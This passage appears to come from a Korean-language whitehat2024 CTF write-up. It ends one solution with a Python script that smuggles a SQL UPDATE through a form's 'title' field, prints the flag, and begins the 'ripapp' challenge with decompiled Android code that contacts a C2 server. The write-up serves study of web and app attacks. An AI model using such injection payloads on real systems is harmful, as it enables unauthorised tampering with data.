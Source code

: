 ```python
        'title': f'\n SET users.filepath={string_to_hex(payload)} WHERE users.user={string_to_hex(ID)}#',
    }
)
print(r.text)

r = s.post(f'{url}/users/profileapi.php')
print(r.text)
```           
     
### Flag    
whitehat2024{6aaff0726bc7fbf8e1becf82f00138ea445b211c12b7dbc7afd53a199c0b70910ab59e0374f82a344f6832ab2cfd5f5fcca7}       
       
<a id="ripapp"></a>                   
    
# ripapp    
      
ripapp 문제는 C2 서버와 통신하는 apk 파일을 제공해줬다. C2 서버에 취약점을 찾아 플래그를 찾아야한다.  

MainActivity.java      
```java 
package com.example.ripapp2;

import android.os.Bundle;
import android.provider.Settings;
import android.view.View;
import android.widget.Button;
import android.widget.Toast;
import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.app.NotificationCompat;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;
import org.json.JSONException;

public class MainActivity extends AppCompatActivity {
    private Button startBtn;

    public native void SayHelloWorld();

    /* access modifiers changed from: protected */
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        new check().isIntegrityValid(this, "test");
        MyApp myApp = (MyApp) getApplicationContext();
        myApp.setStartmsg("앱 시작");
        Toast.makeText(getApplicationContext(), myApp.getStartmsg(), 0).show();
        EdgeToEdge.enable(this);
        try {
            if (!SendData.send("/fsalke2j9sdfcjlz/BSBoQXNxCxOtACCpujH9zMdrCJsl5B").getBoolean(NotificationCompat.CATEGORY_STATUS)) {
                System.out.println("Failed to connect to C2 Server");
                finish();
            } else {
                ConfigC2.setUrllist(SendData.send("/fsalke2j9sdfcjlz/lh1sy5VXzAL8Qmadn5OOvLP5mheIo5").getJSONArray("list"));
                ConfigC2.setBody(SendData.send((Integer) 0).getJSONArray("list"));
                System.out.println("Connected to C2 Server successfully");
            }
        } catch (JSONException e) {
            System.out.println("json error");
```